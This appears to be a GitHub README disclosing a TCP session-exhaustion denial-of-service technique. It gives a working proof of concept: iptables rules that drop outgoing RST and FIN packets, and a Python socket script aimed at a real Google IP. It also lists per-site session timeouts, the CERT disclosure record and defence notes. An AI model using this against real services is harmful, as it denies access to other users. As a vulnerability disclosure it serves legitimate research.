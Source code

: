 # TCP-Starvation

Some time ago, I found a design flaw/vulnerability which affects most TCP services and allows for a new variant of denial of service. 
This attack can multiply the efficiency of a traditional DoS by a large amount, depending on what the target and purpose may be.


The idea behind this attack is to close a TCP session on the attacker's side, while leaving it open for the
victim. Looping this will quickly fill up the victim’s session limit, effectively denying other users to
access the service.


This is possible by abusing RFC793, which lacks an exception if reset is not sent. 

    RFC793 page 36
    As a general rule, reset (RST) must be sent whenever a segment arrives
    which apparently is not intended for the current connection. A reset
    must not be sent if it is not clear that this is the case. 

<br>

What does this affect?
- Most services running on TCP
- Product handling TCP sessions such as:
  - Firewalls with session based policies
  - Routers and firewalls with NAT tables
  - Load balancers
  - and probably a lot more

<br>

## Proof of Concept
Connect to a device with root privileges and drop all outgoing RST and FIN packets towards the victim server.

    iptables -A OUTPUT -d 173.194.222.100 -p tcp --dport 80 --tcp-flags RST RST -j DROP
    iptables -A OUTPUT -d 173.194.222.100 -p tcp --dport 80 --tcp-flags FIN FIN -j DROP 

The python script below will close the TCP connection early, instead of waiting for a response.

    #/usr/bin/python
    import socket
    header = ('GET / HTTP/1.1\r\n'
              'Host: www.google.com\r\n'
              'Connection: keep-alive\r\n\r\n')
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(5)
    s.connect(('173.194.222.100', 80))
    s.send(header)
    s.close() 

![Starvation test on on google.com](https://raw.githubusercontent.com/Eplox/TCP-Starvation/master/images/google.png))
<br>
![TCP life cycle network flow](https://raw.githubusercontent.com/Eplox/TCP-Starvation/master/images/tcp_flow.png)

By adding a "Connection: keep-alive" to http/https request, increases the session hold time to at least the keep-alive time specified by the server. 

The last packet from 173.194.222.100 is sent roughly 120 seconds after the attack occurred. 
In most cases, the attack lasts equal to the time between first and last packet received, plus the time between last and second last packet. <br>
This is because the server may not send out a "I'm done with you" packet at the end of it's FIN_WAIT1 state., something that can be confirmed by monitoring netstat during the attack on the victim side.<br>
So for google.com, I would expect the total attack duration per request would be: (127-10)+(127-97) = 147 rounded up to 150 seconds.

<br>

## Test on a few different protocols
    Protocol    Session Timeout     Software Version
    HTTP        320                 Apache httpd 2.4.27 (Linux ubuntu 4.13.0-21-generic)
    HTTPS       320                 Apache httpd 2.4.27 (Linux ubuntu 4.13.0-21-generic)
    SSH         195                 OpenSSH 7.5p1 (Linux ubuntu 4.13.0-21-generic)
    SMTP        310                 Postfix smtpd (Linux ubuntu 4.13.0-21-generic)

Timeout values seem to depend on the application itself, as well as the kernel values such as  https://www.kernel.org/doc/Documentation/networking/nf_conntrack-sysctl.txt<br>
Result may variate between different protocols, kernels and settings.

<br>

## Estimated TCP session timeout on a few popular sites
google.com: 150sec<br>
facebook.com: 200sec<br>
wikipedia.org: 90sec<br>
twitter.com: 1020sec<br>
reddit.com: 710sec

<br>

## And if you weaponize it?
https://www.youtube.com/watch?v=6rE0hMq6_gQ<br>
[![Youtube](https://img.youtube.com/vi/6rE0hMq6_gQ/0.jpg)](https://www.youtube.com/watch?v=6rE0hMq6_gQ)

<br>

## Disclosure
This vulnerability has been a real nightmare to disclose responsible. It could take several months before getting a reply with "TCP vulnerabilities are not within our scope.", or just no answers at all.
After multiple of disclosing attempts, I finally got in contact with EFF https://www.eff.org/security which pointed me in the right direction of CERT Coordination Center (CERT/CC) https://www.cert.org/, where the case was quickly handled with:

After analysis, we believe we have determined that this attack is a variant of a NAPTHA attack, CVE-2000-1039. We previously published an advisory on these types of attacks: <https://www.cert.org/historical/advisories/CA-2000-21.cfm> and a longer research report is available at <https://www.giac.org/paper/gsec/313/naptha-type-denial-of-service-attack/100899>.
<br><br>We're looking at updating the advisory to specify TCP RST packets too, but the problem in general appears to be a publicly known one. It's also unclear how the RFC could be updated to prevent this sort of attack in TCP.

<br>

## Q/A
**Q:** How do I defend myself?<br>
**A:** Defending yourself means you have to tweak the timeout and retransmission settings, this could affect users with poor connections in a negative way.<br>

**Q:** Will you release kittenzlauncher from that youtube video?<br>
**A:** Not planning to do so. Giving script kiddies a newb friendly attack tool with a ton of evasion and attack functionality would probably piss off more people than make others happy.
